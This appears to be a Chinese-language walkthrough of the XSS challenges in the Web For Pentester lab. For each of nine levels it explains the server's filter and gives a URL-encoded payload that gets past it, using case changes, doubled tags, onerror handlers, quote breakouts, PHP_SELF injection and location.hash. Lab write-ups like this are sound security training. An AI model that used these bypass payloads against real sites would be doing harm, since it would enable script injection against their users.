Web_For_Pentester渗透测试环境中的xss注入关卡部分
Example 1

典型的反射型XSS，将我们通过GET方式输入的参数name直接输出
payload:http://192.168.187.141/xss/example1.php?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E

Example 2

对GET方式输入的参数name进行正则匹配过滤，使用了函数preg_replace过滤了script标签：
1 | $name = $_GET['name']; |
但我们知道preg_replace是非常不安全的，有非常多的方法可以绕过，这里我们只需要利用大写即可非常轻松的绕过过滤
payload:http://192.168.187.141/xss/example2.php?name=%3CScript%3Ealert(%27xss%27)%3C/Script%3E

Example 3

这关同样是正则匹配过滤，区别于上一关的是这里用了匹配修饰符/i，所以不论大小写都会被过滤
1 | $name = $_GET['name']; |
所以我们换一种方式，双写即可绕过

Example 4

这关通过正则匹配过滤了关键字script，并且通过修饰符/i无视大小写
1 | if(preg_match("/script/i",$_GET['name'])){ |
排除script，我们还可以通过onerror事件进行xss攻击
payload:
http://192.168.187.141/xss/example4.php?name=%3Cimg%20src=1%20onerror=alert(%22xss%22)%3E

Example 5

过滤了关键字alert，但是script未被过滤，除了alert外还有其他方法，如下
1 | alert() 弹出个提示框 （确定） |
payload:
http://192.168.187.141/xss/example5.php?name=%3Cscript%3Econfirm(%27xss%27)%3C/script%3E
http://192.168.187.141/xss/example5.php?name=%3Cscript%3Eprompt(%27xss%27)%3C/script%3E


Example 6

这关是直接将我们输入的参数name的值赋值给脚本变量a，从页面源代码也可以看出
1 | Hello |
payload：
http://192.168.187.141/xss/example6.php?name=hacker%22;alert(%27xss%27);//

Example 7

这关区别在于是通过单引号闭合，所以将上一关的payload中的双引号改为单引号即可
payload：
http://192.168.187.141/xss/example7.php?name=hacker%27;alert(%27xss%27);//

Example 8
本关的源代码如下：
1 | <?php |
可有发现参数name经过htmlentities函数处理，这是一个可以将html标签的尖括号转义的函数，所以我们无法通过参数name进行xss攻击，仔细一看这里面还有一个可控的参数$_SERVER[‘PHP_SELF’]，来看看PHP手册对这个参数的说明：
1 | 'PHP_SELF' |
所以我们可以通过改变url来改变这个变量的值
payload：

这时看一下页面的源代码：
1 | <form action="/xss/example8.php/" method="POST"> <script>alert('xss')</script>" method="POST"> |
成功插入恶意脚本代码
Example 9
源代码：
1 | <script> |
location.hash是指url中#后面的内容，substring(1)从第一个字符开始
payload:
http://192.168.187.141/xss/example9.php#%3Cscript%3Ealert('xss')%3C/script%3E
但是这里没有弹框，有点奇怪